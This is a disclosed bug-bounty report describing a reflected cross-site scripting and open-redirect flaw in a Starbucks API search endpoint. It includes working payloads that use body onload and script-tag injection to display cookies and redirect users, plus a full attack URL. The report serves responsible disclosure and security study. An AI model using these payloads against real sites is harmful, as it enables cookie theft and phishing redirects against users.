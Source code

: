 # Reflected XSS in openapi.starbucks.com /searchasyoutype/v1/search?x-api-key=

## Report Details
- **Report ID**: 213190
- **URL**: https://hackerone.com/reports/213190
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-03-13T19:56:52.180Z
- **Disclosed**: 2017-07-25T21:03:56.312Z

## Reporter
- **Username**: an0n-j
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: starbucks

## Vulnerability Information
Hi Starbucks team,
While testing i founded Reflected XSS in openapi.starbucks.com that can also lead to Open redirect
Vulnerable link
==========
https://openapi.starbucks.com/searchasyoutype/v1/search?x-api-key=██████&query=coffe&partnerid=████:vwt2u5wngbk&siteBaseUrl=
Vulnerable parameter
===============
siteBaseUrl
Payloads
======
```1). http://googl.com/%0a<body onload=%61lert(%64ocument.%63ookie)>%
2). http://googl.com/%0a<body onload=prompt(%64ocument.domain)>%```
For Open redirect the payload is
=====================
```
http://googl.com/%0a<script>window.location='https://google.com';</script>%
```

So the finalized link with payload is given below
```
https://openapi.starbucks.com/searchasyoutype/v1/search?x-api-key=██████&query=coffe&partnerid=███████:vwt2u5wngbk&siteBaseUrl=http://googl.com/%0a<body onload=%61lert(%64ocument.%63ookie)>%
```

POC has been attached

## Attachments
No attachments

